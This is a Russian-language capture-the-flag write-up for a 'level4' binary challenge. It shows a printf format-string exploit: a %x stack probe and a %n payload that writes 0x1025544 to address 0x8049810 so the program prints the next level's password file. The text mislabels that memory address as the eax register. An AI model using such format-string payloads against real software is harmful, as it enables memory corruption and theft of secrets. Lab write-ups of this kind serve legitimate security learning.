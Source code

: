## level4
![](docs/img/level4_1.png)

Из `main` у нас вызывается функция `n()`,

![](docs/img/level4_2.png)

где вызывается функция `p()`

![](docs/img/level4_3.png)

(с единственным вызовом — `printf()` и извлекается содержимое файла `level5/.pass` при совпадении регистра `eax` с числом `0x1025544` (16930116 в десятичной системе). Следовательно, этот регистр необходимо перезаписать, используя функцию `printf()`. Адрес регистра `eax` — `0x8049810`. Находим позицию буфера:

```sh
./level4 <<< $(python -c 'print "aaaa" + " %x" * 15')
```

Видим, что при данном выводе `aaaa` (`0x61616161`) находится на 12й позиции.

```
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```

Для записи числа 16930116 используем модификатор `%x`. Итоговая команда:

```sh
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')
```
